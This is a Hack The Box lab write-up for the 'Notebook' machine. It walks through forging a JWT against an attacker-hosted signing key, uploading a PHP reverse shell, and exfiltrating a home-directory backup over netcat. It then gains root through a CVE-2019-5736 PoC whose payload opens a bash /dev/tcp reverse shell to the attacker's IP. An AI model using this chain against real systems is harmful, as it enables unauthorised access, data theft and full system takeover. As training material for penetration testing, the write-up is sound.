 # Hack The Box Guide by Alen Peric:
## The Notebook
### IP: 10.10.10.230

### Summary: 

The Notebook introduces us to jwt token manipulation. Lots of interesting lessons on base64 encoding/decoding, constructing cookies and manipulating them. Great insight into transferring files using netcat. This machine also shows us how to manipulate the docker exec environment for privilege escalation. Touches on “go” and “tar” files, as well as ssh private keys for verification.

### CVE References:
- CVE-2019-5736 

**-------------------------------------------------------------------------------------------------------------------------------**

### Important Commands:
*ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz
nc -nvlp 1717 > home.tar.gz
ssh -i id_rsa noah@10.10.10.230 
Sudo -l
sudo /usr/bin/docker exec -it webapp-dev01 bash
go build main.go*

**-------------------------------------------------------------------------------------------------------------------------------**

### Notes:

Starting with enumeration, we observe that port 22 (SSH) and port 80 (HTTP) are open. There was also port 10010 open with rxapi, however that is a rabbid hole. Start your burpsuite, turn packet intercepts off and let’s head to the website. There is a small webapp running on there, where we are able to create an account and post notes to a website. After some experimenting trying to inject SQL and reverse shells to the website, we observe that there is a token that gets passed through the packet whenever we refresh the page. The cookie token looks like this:

Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1lMTIzIiwiZW1haWwiOiJtZUBtZS5jb20iLCJhZG1pbl9jYXAiOjB9.mtjs7cClGwfZSGFPP8gvpTXuFHCV7UOOxcvc7fvooUKkuOheg1RuiUqWo0Ba7CcC5fBozAU6Vt5jyJ0r1Qmtg1_j8VowZfbqJmwilf89TzDM977yb8WUuqp6fm_rHv0RzJPCQ0V0u_AqOKBr1UOvQsvnwgNO9VcLhpOtRuKovrcf2vY3cwbaK6zNzAT4n9RubQSW2rsmchX3t7FoHzP5Y8HmAbDBZifOEXMymu2Uwjl71S_IHcvGfzweBwa0iYBEsBC4vaDgXh7_RUVx5qn6AjWhrlCRzc24aD-gz-Omy8uVIfVxtRQJ3vyzud1pGkQjJO2bI94c_JjnjFH7WQoXHKjA4PE5bUz-BErCXl2uTPQKrzllKnPzUODfEUNgAQ_HnncBbB48QN69ja63_t3xbaH9Xvo-fiqGBaS68sAdxwFQDLdQ9fN_mcIyu1V9ibiKfZXKbiQmlB-TElmb1BX1bKgu7uLBrWGTV4cM5ucU1fGr0wX6UUazg1mQx5MGEUiCEW9qGL4ihPdUUzZwvP9PgDPGBFJeuwGWeEcnQpahBVEG04Jkmag8hoIMJUTFi35ZpLlcop4NzjSb_btrC0BGT9L6sh5xEeTZcb26g7RdCa5vhVQ_ARhZaUq8C4DIQNWg0uoIEmhSV8ed9JeikAloyUUrKqs44WUPwjDya_ob-2g; uuid=6662433b-f57b-43af-b026-04b151ed1a3c

This is a JWS token. It is encoded in base64. These tokens consist of a header, payload and signature. For this exercise, we will use the websites http://jwt.io and http://base64encode.com / http://base64decode.com/ . We can put the string into http://jwt.io and it shows us some of the fields that are in here. 



You will notice a few things. The red part of the text is the Header, the purple is the Payload and the blue is the signature. The mechanic that occurs here is once the website receives the packet from our host, it will check its localhost on port 7070 in order to make sure the signature of the cookie matches its private key. What we want to do here is modify the packet so that the machine will check our port to verify the signature with our private key. Changing anything on the Header and Payload on jwt.io will not update properly and as such we need to translate our token through the base64 website. We copy the red part of the text, decode it through base64, and change the localhost to our host IP. we re-encode the payload back to base64, add it to a notepad document and append a . to it, which is the separator in the token. We repeat the same for the payload, however, all we changed with the payload was the admin_cap bit from 0 to 1 which is going to make the user you created an admin for this cookie request. Modifying the bit only stays as long as we can generate our own cookie. 

Now it’s time to create a directory mkdir notebook && cd notebook then we generate a new set of ssh keys in this folder with the command: ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key this will generate new RSA keys for us. After this we are going to modify the format by issuing: openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub and then issue the cat command to view both files. We copy the entire key, including the ----BEGINNING OF RSA KEY---- and add both parts to our token in jwt.io website. This should show us that the signature is valid and the entire cookie is constructed. Before we are able to validate the cookie, we have to start hosting our privKey.key on port 7070. In order to accomplish this we start a mini python server on our port 7070, with the command python3 -m http.server 7070. Once this is accomplished, we refresh the notebook page, intercept the packet with burpsuite and replace the cookie token with the one we generated. If everything is done properly, once the website reloads, we should be able to access the admin panel. Remember that each page request will require you to replace the cookie token, in order to maintain admin access to the page. 

We can head to the admin panel now and we notice that we are able to upload files now. I uploaded a simple php reverse shell from Kali’s resources under /usr/share/webshells/php/php-reverse-shell.php or you could use the one from pentest monkey found here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell and set up a netcat listener. Make sure to modify the php shell with your IP and port. Once the shell is uploaded we copy the name generated blablabla.php and append that name to the http://10.10.10.230/blablabla.php and that will trigger the reverse shell to call back to our netcat session. 

Now that we have a connection up and running, we issue the command whoami and it shows us we landed a shell as www-data. Browsing around the directory, we can find a copy of a home directory in /var/backups, as well as a home.tar.gz. While the home directory doesn’t give us all of the read permissions we need, we are able to read home.tar.gz just fine. We issue the command: nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz on the target machine and nc -nvlp 1717 > home.tar.gz on our host machine. This will transfer a copy of home.tar.gz which we can unpack to find a copy of noah’s home directory with the command: tar . In noah’s home is a .ssh folder with a copy of Noah’s private and public key. We can use the private key to authenticate trough ssh, without providing a password. In order to do this, we issue the command ssh -i id_rsa noah@10.10.10.230 

Now that we have access to Noah’s account,  we can cd into his home directory where we find the user flag. Time to escalate our privileges to root! The first thing we do, whenever we test privilege escalation, is to see if the sudo has allowed us to issue any commands as them, without requiring a password. We are able to run the command /usr/bin/docker exec -it webapp-dev01* 

We search for an exploit on google: docker exec exploit github and one of the first results that comes up is a CVE-2019-5736 PoC page: https://github.com/Frichetten/CVE-2019-5736-PoC 
We clone the repository, and modify the main.go file. We will modify the payload, where it says var payload = “blabla”, we will replace it with the following command: var payload = “#!/bin/bash \n echo 'bash -i >& /dev/tcp/10.10.16.160/1337 0>&1' > /tmp/rev.sh && chmod +x /tmp/rev.sh && bash /tmp/rev.sh"

After this is done, we save the file and build our main by issuing the command go build main.go
This should result in producing a compiled file called just main. Start a mini http server on port 1010 so we are able to upload the main to the target machine as this will be the payload that will be executed to get us to root. We go back to the target machine and issue our sudo command to get into the docker container: sudo /usr/bin/docker exec -it webapp-dev01 bash. Now that we are in the docker container, running as sudo, we open a second instance of noah’s ssh shell and start a netcat listener on port 1337 on our local machine. On the docker instance, we cd into /tmp and then issue a wget http://10.10.16.160:1010/main to download the main we just built with go. Once it is downloaded, we issue the chmod +x ./main command in order to add executable permissions to it. Before we run it, make sure to have the same sudo /usr/bin/docker exec -it webapp-dev01 bash ready in the second terminal, as you’ll have to be quick. Run the ./main in the first docker instance and while it is initializing, issue the command in the second ssh shell and you should hey the response: no help topic for ‘/bin/sh’ if you see this, you’re on the right track and once the command finishes compiling, it should start a shell to root account in the netcat session that is listening on port 1337 should connect via the payload and grant us root permissions. Now we can cd into /root and retrieve our root flag! Good job on finishing this lab!




**-------------------------------------------------------------------------------------------------------------------------------**

### Lessons:

Amazing learns about JWT token manipulation. Aside from being able to redirect the verification process to our local machine and sign with our own private key. The alternative is the ability to change the JWT token’s alg field to none, which omits the need for a signature in the cookie. Lots of great information in here: https://cyberpolygon.com/materials/security-of-json-web-tokens-jwt/ as well as the actual website for decrypting JWT tokens can be found here: https://jwt.io/ 
Additionally, here is a great website to convert base64 and encode it: https://www.base64encode.org/ also there seems to be a brute-forcing tool for jwt tokens on github here: https://github.com/ticarpi/jwt_tool/ 
Getting the root flag is as usual with first issuing the sudo -l command and using a docker exec exploit against it: https://github.com/Frichetten/CVE-2019-5736-PoC The exploit may be found here and all we need to do is manipulate the payload variable in order for it to execute our commands. Also another good look into transferring files using netcat. 
